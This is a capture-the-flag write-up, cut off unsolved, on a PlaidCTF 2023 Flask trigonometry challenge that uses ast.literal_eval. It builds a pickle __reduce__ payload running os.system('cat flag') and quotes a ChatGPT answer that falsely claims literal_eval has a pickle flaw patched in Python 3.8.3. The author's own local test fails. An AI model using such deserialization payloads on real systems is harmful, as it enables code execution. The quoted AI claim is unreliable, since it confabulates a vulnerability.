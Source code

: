 # Terrific Trigonometry Tutor

## TTT

### Overview

- 69 Points / 99 Solves

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★★

### Background

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416144757.png)

### Enumeration

In this challenge, there's a web application:

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416144833.png)

Which allows you to do some trigonometry calculations.

**We can also view the [source code](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar):**
```shell
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:08(HKT)]
└> file ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar    
tttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar: POSIX tar archive
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:14(HKT)]
└> tar -xf ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:19(HKT)]
└> ls -lah chal  
total 24K
drwxr-xr-x 4 siunam nam 4.0K Apr 15 17:55 .
drwxr-xr-x 3 siunam nam 4.0K Apr 16 14:37 ..
-rw-r--r-- 1 siunam nam  463 Apr 15 04:16 Dockerfile
drwxr-xr-x 3 siunam nam 4.0K Apr 15 04:05 static
drwxr-xr-x 2 siunam nam 4.0K Apr 15 04:05 templates
-rw-r--r-- 1 siunam nam 2.2K Apr 16 14:42 trig.py
```

**trig.py:**
```py
from flask import Flask, url_for, render_template, request
from ast import literal_eval
import sympy

app = Flask(__name__)

@app.route("/")
def index():
    return render_template('index.html')


regular_operators = {
    'add': lambda x, y: x + y,
    'sub': lambda x, y: x - y,
    'mul': lambda x, y: x * y,
    'div': lambda x, y: x / y,
    'pow': lambda x, y: x ** y,
}

trig_operators = {
    'sin': sympy.sin,
    'cos': sympy.cos,
    'tan': sympy.tan,
    'cot': sympy.cot,
    'sec': sympy.sec,
    'csc': sympy.csc,
    'asin': sympy.asin,
    'acos': sympy.acos,
    'atan': sympy.atan,
    'acot': sympy.acot,
    'asec': sympy.asec,
    'acsc': sympy.acsc,
}


def postfix_calculator(inp):
    stack = []
    for (ty, val) in inp:
        if ty == 'num':
            stack.append(literal_eval(val))
        elif ty == 'var':
            stack.append(sympy.Symbol(val))
        elif ty == 'op':
            if val in regular_operators:
                a = stack.pop()
                b = stack.pop()
                stack.append(regular_operators[val](b, a))
            elif val in trig_operators:
                a = stack.pop()
                stack.append(trig_operators[val](a))
            else:
                raise ValueError("Invalid operator")
    return stack


@app.post("/compute")
def compute():
    try:
        expr = postfix_calculator(request.get_json())
        if len(expr) == 1:
            return sympy.latex(expr[0]) + r'\\=\\' + sympy.latex(sympy.simplify(expr[0]))
        else:
            return r'\quad{}'.join(map(sympy.latex, expr)) + r'\\=\\\cdots'
    except Exception as e:
        return "invalid expression"
```

In this Flask web application, there's a POST route called `/compute`.

This route needs a JSON data, and perform some trigonometry calculations.

**Right off the bat, I saw this:**
```py
if ty == 'num':
    stack.append(literal_eval(val))
```

`literal_eval`??

**After some Googling, I found this [StackOverflow post](https://stackoverflow.com/questions/15197673/using-pythons-eval-vs-ast-literal-eval):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416145220.png)

Hmm... Seems no luck to gain RCE (Remote Code Execution), just like normal `eval`.

**However, I decided to ask ChatGPT to bypass `literal_eval`:**

```
Prompt: Can you give an example of how to bypass the security measures of literal_eval?

Answer: While it is difficult to craft input that can bypass the security measures of literal_eval, there have been vulnerabilities in the past that allowed for code execution via literal_eval. One such example is the "pickle deserialization" vulnerability, which affects Python versions before 3.8.3.

In this vulnerability, an attacker can craft a malicious pickle object that, when deserialized using literal_eval, executes arbitrary code on the system. Here's an example:

import pickle

class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ("echo 'exploited'",))

exploit = pickle.dumps(Exploit())

# This input executes the code in the pickle object
output = eval(pickle.loads(exploit))
In this example, we define a class Exploit that defines the __reduce__ method. This method is called when the object is pickled, and it returns a tuple that specifies the function to call and its arguments. In this case, we're returning the os.system function with the argument "echo 'exploited'", which will execute the echo command when literal_eval is called on the deserialized object.

When we pickle the Exploit object and pass it to literal_eval, the __reduce__ method is called and the os.system function is executed, which runs the echo command and outputs the message "exploited".

It's worth noting that this vulnerability has been patched in Python 3.8.3 and later versions, so it's important to keep your Python installation up-to-date to prevent these types of attacks. Additionally, it's important to sanitize and validate any input that is passed to literal_eval, or to use a safer alternative if possible.
```

Wait, it's vulnerable to pickle deserialization??

Let's build the pickle payload!

```py
#!/usr/bin/env python3
import pickle

def main():
    class Exploit:
        def __reduce__(self):
            import os
            return (os.system, ("cat flag",))

    exploit = pickle.dumps(Exploit())
    print(f'[*] Payload: {exploit}')

if __name__ == '__main__':
    main()
```

```py
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:25(HKT)]
└> python3 test.py 
[*] Payload: b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x08cat flag\x94\x85\x94R\x94.'
```

**Then, do local testing for that payload:**
```py
[...]
if ty == 'num':
    stack.append(literal_eval(val))
    literal_eval("__import__('pickle').loads(b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x08cat flag\x94\x85\x94R\x94.')")
[...]
if __name__ == '__main__':
    app.run(debug=True)
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416145616.png)

```shell
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:38:25(HKT)]
└> python3 chal/trig.py
[...]
1
127.0.0.1 - - [16/Apr/2023 14:56:05] "POST /compute HTTP/1.1" 200 -
```

Nope.

However, I tried to find other vulnerabilities like LaTeX injection, but still no luck...
